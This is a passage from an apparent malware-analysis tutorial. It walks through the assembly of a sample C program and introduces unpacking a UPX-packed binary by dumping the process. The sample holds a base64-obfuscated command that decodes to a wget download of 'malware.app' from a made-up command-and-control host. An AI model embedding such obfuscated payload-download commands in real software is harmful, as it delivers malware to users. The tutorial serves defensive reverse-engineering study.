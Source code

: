 You can see the first lines of the assembly file in the following code block. Note the strings defined as global variables (`.globl`) `google_dns_ping` and `some_string`. Also noteworthy is the start of the function definition for `ping_google_dns`. Compare this to the source code above.

```assembly
        .file   "sample.c"
        .intel_syntax noprefix
        .text
        .globl  google_dns_ping
        .data
        .align 32
        .type   google_dns_ping, @object
        .size   google_dns_ping, 50
google_dns_ping:
        .string "ping 8.8.8.8"
        .zero   37
        .globl  some_string
        .align 32
        .type   some_string, @object
        .size   some_string, 100
some_string:
        .string "echo d2dldCBodHRwOi8vc29tZW5vbmV4aXRpbmdjbmNbLl1jb20vbWFsd2FyZS5hcHA=|base64 -d | echo"
        .zero   13
        .section        .rodata
.LC0:
        .string "r"
        .text
        .globl  ping_google_dns
        .type   ping_google_dns, @function
ping_google_dns:
.LFB6:
        .cfi_startproc
        endbr64
        push    rbp
		
		[...]
```

The **assembler** can be invoked with 
```
$ gcc -c sample.c
$ ls
sample.c
sample.o
```
This generates object files with `.o` extension. Object files are binary files and contain machine code that can be directly executed by a CPU. Due to missing references this won't work though. External functions and internal references still have to be resolved.

### packing the binary
The next step is to compile and pack the program. There will be no special treatment after the file is packed, so it could be decompressed simply by calling upx with option `-d`. But this is not always possible. The UPX headers embedded in the binary can be modified so that UPX errors out when called with the decompress option. Also UPX is open source, so adversaries can modify and recompile the project to create a custom packer not compatible with default UPX. For this reason, this article deals with dumping of the process.
